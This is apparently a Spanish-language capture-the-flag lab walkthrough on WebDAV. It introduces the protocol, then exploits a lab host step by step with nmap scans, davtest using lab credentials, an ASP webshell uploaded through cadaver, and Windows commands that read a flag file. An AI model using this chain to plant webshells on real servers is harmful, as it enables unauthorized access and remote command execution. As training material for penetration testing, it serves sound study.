 Web Distributed Authoring and Versioning (Autoría y Versionado Distribuido en la Web), es un conjunto de extensiones del protocolo HTTP diseñado para permitir la edición remota y la gestión de archivos en servidores web. Fue desarrollado para facilitar la colaboración en línea y la gestión de contenido web.

WebDAV extiende las funcionalidades básicas del protocolo HTTP para permitir operaciones como la creación, modificación y eliminación de archivos y directorios en un servidor web remoto. Además, proporciona mecanismos para el bloqueo de archivos, la gestión de propiedades de recursos web y el control de versiones, lo que lo hace útil para entornos donde se requiere colaboración en la edición de documentos y archivos.

Algunas aplicaciones comunes de WebDAV incluyen la edición colaborativa de documentos, la sincronización de archivos entre dispositivos y la integración de sistemas de gestión de contenido (CMS) con servidores web. WebDAV es compatible con una variedad de sistemas operativos y aplicaciones, lo que lo convierte en una herramienta versátil para la gestión de contenido en línea.


# Ejemplo practico
Lo primero que haremos sera hacer un escaner del host a explotar
nmap -sv -sC 10.2.20.83
![[Pasted image 20240307115652.png]]

Una vez visto el protocolo a explotar, utilizaremos un script de namp
nmap -sV -p 80 --script http-enum [IP]
![[Pasted image 20240307115907.png]]

Como podemos ver tiene autenticación para poder continuar explotando el protocolo http necesitaremos las credenciales, porque si intentamos acceder nos solicitara el usuario y la password
![[Pasted image 20240307120308.png]]

Si pudiésemos acceder se nos desplegaría la siguiente pagina
![[Pasted image 20240307120356.png]]

Continuando con el ataque utilizaremos la herramienta davtest para comprobar si los servidores están habilitados para poder subir nuestro payload y poder acceder al servidor

davtest -url http://10.2.20.83/webdav
![[Pasted image 20240307121012.png]]

Como podemos ver nos ha fallado por que esta habilitada la autenticación, para poder acceder tendremos que usar el usuario y la contraseña

davtest -auth bob:password_123321 -url http://10.2.20.83/webdav
![[Pasted image 20240307121455.png]]
![[Pasted image 20240307121520.png]]

Una vez comprobado que podemos subir archivos y tenemos la ruta con la herramienta de cadaver accederemos a la ruta y subiremos el archivo .asp backdoor

Accedemos dentro de la ruta con cadaver
cadaver http://10.2.20.83/webdev
![[Pasted image 20240307122029.png]]

Subimos el archivo
put /usr/share/webshells/asp/webshell.asp
![[Pasted image 20240307122153.png]]

Como podemos ver el archivos se ha subido, accedemos al directorio
![[Pasted image 20240307122322.png]]

Entramos en webshell.asp y ya estariamos dentro del terminal, ahora podriamos escribir todos los comandos estando dentro del equipo, en la siguiente imagen vemos que hemos mirado que usuario somos y nos lo ha mostrado por pantalla
![[Pasted image 20240307122432.png]]

Ejecutamos el siguiente comando para listar directorios
dir C:\
![[Pasted image 20240307122619.png]]

Ahora ejecutamos el siguiente comando para listar la bandera
type C:\flag.txt
![[Pasted image 20240307122921.png]]





